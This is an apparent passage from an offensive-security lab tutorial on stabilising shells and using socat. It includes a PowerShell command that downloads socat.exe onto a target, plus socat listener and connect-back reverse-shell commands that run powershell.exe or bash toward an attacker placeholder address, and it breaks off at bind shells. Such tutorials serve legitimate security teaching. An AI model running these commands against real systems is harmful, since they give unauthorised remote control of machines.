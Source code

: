 For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run stty -a. This will give you a large stream of output. Note down the values for "rows" and columns:



Next, in your reverse/bind shell, type in:

stty rows <number>

and

stty cols <number>

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

Once again, let's start with reverse shells.

Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

socat TCP-L:<port> -

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to nc -lvnp <port>.

On Windows we would use this command to connect back:

socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

Bind Shells

On a Linux target we would use the following command:
